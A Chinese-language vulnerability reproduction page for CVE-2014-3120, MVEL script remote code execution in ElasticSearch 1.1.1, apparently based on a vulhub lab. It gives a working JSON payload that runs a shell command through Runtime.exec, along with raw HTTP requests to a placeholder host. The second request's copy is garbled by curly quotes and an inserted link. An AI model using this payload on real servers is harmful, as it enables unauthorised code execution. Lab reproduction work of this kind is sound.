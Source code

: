 ```yaml
---
title: "（CVE-2014-3120）ElasticSearch 命令执行漏洞"
id: zhfly2902
---
```


# （CVE-2014-3120）ElasticSearch 命令执行漏洞

## 一、漏洞简介

老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。

## 二、漏洞影响

elasticsearch版本：v1.1.1

## 三、复现过程

编译及运行环境：

```
docker-compose build
docker-compose up -d 
```

将Java代码放入json中：

```
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
  } 
```

首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25 `{

“name”: “phithon”

}` 
```

然后，执行任意代码：

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343 `{

“size”: 1,

“query”: {

“filtered”: {

“query”: {

“match_all”: {

}

}

}

},

“script_fields”: {

“command”: {

“script”: “import [java.io](http://java.io).*;new java.util.Scanner(Runtime.getRuntime().exec(“id”).getInputStream()).useDelimiter(”\\A").next();"

}

}

}` 
```

结果如图：

![image](../img/9b42a356565d56b96d1eec001c3dcc38.png)

## 参考链接

> https://vulhub.org/#/environments/elasticsearch/CVE-2014-3120/